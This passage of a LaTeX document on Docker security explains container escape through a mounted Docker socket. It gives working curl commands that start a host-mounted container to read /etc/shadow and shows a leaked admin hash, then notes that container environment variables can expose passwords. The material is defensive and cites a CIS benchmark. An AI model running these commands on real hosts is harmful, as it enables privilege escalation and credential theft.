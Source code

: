 \medskip

Let's say we want to get the password hash of a user called \lstinline{admin} on the host. We can execute commands in a container with \lstinline{/var/run/docker.sock} mounted as a volume. We use the API to start another Docker container (on the host), that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}[caption={Start Docker using the API to read host files.},captionpos=b]
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\medskip

This is also covered by CIS Docker Benchmark guideline 5.31 (Ensure that the Docker socket is not mounted inside any containers).

\subsubsection{Sensitive Information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e.\ when \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g.\ passwords in environment variables).

\medskip

Let's start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image,\footnote{\url{https://hub.docker.com/_/postgres}} we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

